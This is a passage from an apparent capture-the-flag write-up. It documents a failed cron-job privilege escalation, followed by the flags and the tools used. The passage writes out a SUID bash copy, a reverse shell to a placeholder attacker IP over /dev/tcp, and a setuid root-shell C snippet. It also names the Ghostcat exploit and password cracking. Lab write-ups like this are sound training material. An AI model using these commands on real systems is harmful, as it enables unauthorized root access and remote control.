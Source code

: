 ### 10. Attempted Cron Job Exploit (Unsuccessful)
- Noticed a cron job in `/etc/crontab`:
  ```bash
  * * * * * root cd /root/ufw && bash ufw.sh
  ```
- **Observation**: Runs `/root/ufw/ufw.sh` as `root` every minute [].
- Tried overwriting `/root/ufw/ufw.sh`:
  ```bash
  echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /root/ufw/ufw.sh
  ```
- Failed: Permission denied (not writable by `skyfuck` or `merlin`).
- Created `/tmp/ufw.sh`:
  ```bash
  echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /tmp/ufw.sh
  chmod +x /tmp/ufw.sh
  chmod +s /tmp/ufw.sh
  ```
- Ran it:
  ```bash
  bash /tmp/ufw.sh
  ```
- Output: Created `/tmp/bash` with SUID, but the cron job still executed `/root/ufw/ufw.sh`, not `/tmp/ufw.sh` [].
- Tried a reverse shell:
  ```bash
  echo 'sh -i >& /dev/tcp/[ATTACKER IP]/4444 0>&1' > /tmp/1.sh
  chmod +x /tmp/1.sh
  chmod +s /tmp/1.sh
  bash /tmp/1.sh
  ```
- Failed: No root shell, as the cron job didn’t use `/tmp/1.sh`.
- Tried a C program:
  ```bash
  echo 'int main(){setuid(0);setgid(0);system("/bin/bash");return 0;}' > /tmp/rootshell.c
  chmod +x /tmp/rootshell.c
  ```
- Failed: `gcc` not installed, and `.c` files aren’t executable without compilation [].
- **Why It Failed**: The cron job specifically calls `/root/ufw/ufw.sh`, and `/tmp` is not in the cron’s `PATH`. The `zip` exploit was simpler and effective [].

---

## Flags
- **User flag**: `THM{redacted_user_flag}`
- **Root flag**: `THM{Z1P_1S_FAKE}`
- **Generic Flag Option**: `THM{r4nd0m_us3r_32chars}`, `THM{r00t_r4nd0m_32chars}`

---

## Tools Used
- `nmap`: Port and service enumeration.
- `gobuster`: Directory enumeration.
- `python2` & `48143.py`: Ghostcat exploit (CVE-2020-1938) [].
- `ssh`: Remote access.
- `gpg2john` & `john`: PGP key cracking.
- `gpg`: PGP decryption.
- `zip`: Privilege escalation ([GTFOBins](https://gtfobins.github.io/gtfobins/zip/)).

---